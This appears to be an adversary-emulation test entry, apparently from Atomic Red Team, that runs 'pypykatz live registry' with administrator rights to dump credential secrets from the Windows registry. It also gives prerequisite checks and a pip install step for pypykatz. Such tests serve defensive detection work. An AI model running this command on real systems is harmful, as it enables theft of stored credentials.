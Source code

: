 
**auto_generated_guid:** a96872b2-cbf3-46cf-8eb4-27e8c0e85263






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
pypykatz live registry
```




#### Dependencies:  Run with `command_prompt`!
##### Description: Computer must have python 3 installed
##### Check Prereq Commands:
```cmd
py -3 --version >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
echo "Python 3 must be installed manually"
```
##### Description: Computer must have pip installed
##### Check Prereq Commands:
```cmd
py -3 -m pip --version >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
echo "PIP must be installed manually"
```
##### Description: pypykatz must be installed and part of PATH
##### Check Prereq Commands:
```cmd
pypykatz -h >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
pip install pypykatz
```




<br/>
<br/>

